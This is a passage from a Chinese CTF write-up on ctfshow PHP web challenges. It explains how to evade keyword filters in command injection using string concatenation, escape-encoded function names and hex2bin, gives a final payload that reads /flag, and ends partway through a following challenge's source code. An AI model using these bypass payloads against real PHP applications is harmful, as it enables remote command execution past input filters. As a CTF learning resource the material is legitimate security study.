 > **htmlspecialchars**
>
> ```html
> & （和号）成为 &amp;
> " （双引号）成为 &quot;
> ' （单引号）成为 '
> < （小于）成为 &lt;
> > （大于）成为 &gt;
> ```
>
> 可以看到，单引号是没变的，可以使用

然后对于过滤，可以用字符串拼接绕过(php>7)

```php
(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
.......
```

提一脚字符串转义绕过(在ctfshow的web41有类似的处理)

```
"\x70\x68\x70\x69\x6e\x66\x6f"();#phpinfo();
"\163\171\163\164\145\155"('whoami');#system('whoami');
"\u{73}\u{79}\u{73}\u{74}\u{65}\u{6d}"('id');#system('whoami');
"\163\171\163\164\145\155"("\167\150\157\141\155\151");#system('whoami');
.......
```

本题最终payload就是

`cmd=(s.y.s.t.e.m)('cat /flag');`

也可使用hex2bin

`cmd=hex2bin('73797374656d')('cat /flag');`



### [ctfshow]红包题第二弹



```php
<?php
#error_reporting(0);
?>
<html lang="zh-CN">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta name="viewport" content="width=device-width  minimum-scale=1.0  maximum-scale=1.0  initial-scale=1.0" />
    <title>ctf.show_红包题</title>
</head>
<body>
    <center>
    <h2>ctf.show_红包题</h2>
    <h4>where is the flag?</h4>
    </center>
    <!-- hint:?cmd= -->
    <?php
        if(isset($_GET['cmd'])){
            $cmd=$_GET['cmd'];
            highlight_file(__FILE__);
            if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
            
```